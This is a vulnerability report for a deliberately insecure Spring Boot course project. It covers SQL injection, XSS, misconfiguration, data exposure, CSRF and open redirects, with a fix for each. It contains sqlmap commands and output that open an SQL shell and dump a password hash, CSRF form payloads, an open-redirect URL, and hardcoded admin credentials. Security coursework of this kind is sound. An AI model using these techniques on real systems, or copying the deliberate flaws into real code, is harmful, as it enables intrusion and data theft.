


# Project report
To read the full report, access it @ 
https://github.com/milkboy/Cyber-Security-Base---Course-Project-I/blob/master/doc/report.md

Vulnerability (and fix suggestion) report for _Cyber Security Base - Course Project I_.

To run the project, use either
- maven: `mvn spring-boot:run` and go to `http://localhost:8080/`
- deploy WAR on tomcat/GlassFish/...: `mvn package` produces the WAR in target/

Oh, and the admin username is "ted", and password "ted".

### A1 Injection
The admin page has a method for showing a single signup, like
`http://localhost:8080/admin/1`. The "1" equals the id parameter
and is easily exploitable (blind sql injection at least).
The exploitability is worsened by the fact that this page is world accessible
without authentication (see A5 below). 

##### Exploit
https://github.com/sqlmapproject/sqlmap can be used for verification (default answers to any
questions should be fine).

1) `python sqlmap.py -u "http://localhost:8080/admin/1*" -b` to get the database version string:

~~~~
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: #1* (URI)
  Type: boolean-based blind
  Title: AND boolean-based blind - WHERE or HAVING clause
  Payload: http://localhost:8080/admin/1' AND 9007=9007 AND 'zfcO'='zfcO
---
[11:50:28] [INFO] retrieved: 2.3.3
back-end DBMS: HSQLDB = 2.3.3
banner:    '2.3.3'
~~~~

2) Or use --sql-shell to get full access to the DB 
`python sqlmap.py -u "http://localhost:8080/admin/1*" --level=5 --risk=3 --dbms=hsqldb --sql-shell --technique=BS`
~~~~
custom injection marking character ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[09:30:11] [INFO] flushing session file
[09:30:11] [INFO] testing connection to the target URL
[09:30:11] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[09:30:11] [INFO] testing if the target URL is stable
[09:30:12] [INFO] target URL is stable
[09:30:12] [INFO] testing if URI parameter '#1*' is dynamic
[09:30:12] [INFO] confirming that URI parameter '#1*' is dynamic
[09:30:12] [INFO] URI parameter '#1*' is dynamic
[09:30:12] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[09:30:12] [INFO] testing for SQL injection on URI parameter '#1*'
[09:30:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[09:30:12] [INFO] URI parameter '#1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Doe")
[09:30:12] [INFO] testing 'HSQLDB >= 1.7.2 stacked queries (heavy query - comment)'
[09:30:12] [WARNING] time-based comparison requires larger statistical model, please wait................... (done)
[09:30:22] [INFO] URI parameter '#1*' appears to be 'HSQLDB >= 1.7.2 stacked queries (heavy query - comment)' injectable
[09:30:22] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8080/admin/1' AND 1670=1670-- uBtj

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: http://localhost:8080/admin/1';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(7555),0),500000000),NULL)--
---
[09:30:36] [INFO] the back-end DBMS is HSQLDB
back-end DBMS: HSQLDB >= 1.7.2
[09:30:36] [INFO] calling HSQLDB shell. To quit type 'x' or 'q' and press ENTER
sql-shell> select id,name,address,password from signup where id=1;
[09:30:39] [INFO] fetching SQL SELECT statement query output: 'select id,name,address,password from signup where id=1'
[09:30:39] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
[09:30:39] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:30:39] [INFO] retrieved: 1
[09:30:39] [INFO] retrieved: 1
[09:30:39] [INFO] retrieved: John Doe
[09:30:39] [INFO] retrieved: Sample address
[09:30:40] [INFO] retrieved: d3b07384d113edec49eaa6238ad5ff00
select id,name,address,password from signup where id=1; [1]:
[*] 1, John Doe, Sample address, d3b07384d113edec49eaa6238ad5ff00
~~~~

##### Fix
Don't use "dynamic" SQL queries. **EVER**. If really needed, any JPA query can be specified
and parametrized as needed, and the parameters will be automatically escaped properly.

1) The whole custom signup repository is unneeded, as the logic should be in the controller.
Remove SignupRepositoryCustom.java and SignupRepositoryImpl (and remove any references)

2) Change all `id` parameters to be `Long` instead of `String`

3) Change SignupController.java to use the `secureSignup` version that is commented out.

####Bonus
Also the signup form uses dynamic SQL

### A3 Cross-Site Scripting
The admin page(s) `http://localhost:8080/admin` renders the table with whatever raw data the
users have entered, including html tags. Also the page displaying the result of registration is
affected, to make it easier for ZAP and other scanners to find the vulnerability.

##### Exploit
Usually, this should need a SQL injection or something, but the application
does not validate input before storing in the DB nor before displaying it.
 
To reproduce:
1) Just enter
`John` 
as name or address for proof. (Remember that single quotes will cause SQL statement errors ;)
2) Results are visible immediately and on the admin page.

##### Fix
`th:utext` is insecure by design, replace with `th:text` in all templates. Oh, and input validation
would be nice also, but not strictly needed to avoid this vulnerability.

### A5 Security misconfiguration
Not all admin pages are properly secured. Any exceptions are displayed to the user. Session
cookie is insecure.

##### Exploit
Some admin pages can be accessed without authentication. Cookie data can
be stolen (as per A3 above).

Steps to reproduce:
1) Go to `http://localhost:8080/admin/1` while not being logged in as an admin.

##### Fix
1) In `SecurityConfiguration.java` `.antMatchers("/admin", "/admin/").authenticated()` should probably more like 
`.antMatchers("/admin/**").authenticated()`, or more preferably, explicitly state which pages
are ok to access unauthenticated, and then require authentication (and authorization also!) 
for everything else.

2) If a custom session handler is needed for whatever reason (distributed servers etc),
remove at least the `serializer.setUseHttpOnlyCookie(false);`-line in `SecurityConfiguration.java`
to prevent javascript from accessing the cookie.

3) Exceptions should be caught and a generic error page displayed instead, possibly a global ExceptionHandlerController.java.
~~~java
package sec.project.controller;

import org.springframework.web.bind.annotation.ControllerAdvice;
import org.springframework.web.bind.annotation.ExceptionHandler;
import org.springframework.web.bind.annotation.ResponseBody;

import javax.servlet.http.HttpServletRequest;

@ControllerAdvice
public class ExceptionHandlerController {

    @ExceptionHandler(value = {Exception.class, RuntimeException.class})
    @ResponseBody
    public String defaultErrorHandler(HttpServletRequest request, Exception e) {
        return "Shit happened";
    }
}
~~~

### A6 Sensitive Data Exposure
The "very secure" password hash (and all other details also) of any registered 
user are leaked through a very easy to guess URL. Password hash and other data is
sent to the client, even when "authentication" fails, and processing is done client
side (javascript)

##### Exploit
1) Since all user Ids are sequential numbers, it's not hard to brute force all of them.
The page will alert that the password does not match, but all the details are
still visible by looking at the code. Sample `http://localhost:8080/event/1/whatever`

##### Fix
The password is to be verified on server side. Also, sending a password (even if it's just
some generated passcode for a single event) in the url is a **BAD** idea. If the page url is
supposed to be accessible without any authentication, it should probably have some 
GUID or something;
`http://localhost:8080/event/0878fb26-c84a-48eb-9f68-c1eefc2223c7`
1) EventController.java needs to verify the password.
2) Remove the &lt;script&gt; from event.html and change "details" div to be visible

### A8 Cross-Site Request Forgery
The application has no CSRF tokens on any forms, meaning that any site containing something like:
~~~
<form action="http://localhost:8080/form" method="post">
<input type="text" name="name" />
<input type="text" name="address" />
<button type="sumbit">SubmitForm</button>
</form>
~~~
can be used to submit information to the page.

##### Exploit
1) Try it out:
<form action="http://localhost:8080/form" method="post">
<input type="hidden" name="name" value="Eve" />
<input type="hidden" name="address" value="Haxxor@somewhere" />
<button type="sumbit">DoIt</button>
</form>

##### Fix
1) Simply remove
`http.csrf().disable();` from SecurityConfiguration.java, as CSRF protection is enabled by default.

### A10 Unvalidated Redirects and Forwards
After signing up, the user should have a link (or be automatically redirected)
to wherever he/she came from. The redirect parameter is used for this can be explicitly
specified when loading the form.

##### Exploit
1) Simply add a redirect to the signup form, like:
`http://localhost:8080/form?redirect=http://google.fi`
Once the form has been sent, the "go back" link is now directing to google.fi (did not 
implement automatic forwarding, as the "event details" link might then go unnoticed).

##### Fix
Redirect parameters should usually not be used. If the need actually arises, the redirect
should only contain a relative path, preferably without query parameters, and it should be
validated before being used.
1) `SignupController.java` should call the `cleanRedirect()`-method before passing the variable

### Misc comments

- it was actually harder than thought to get a nice SQL injection vulnerability 
- zap report

- sql shell

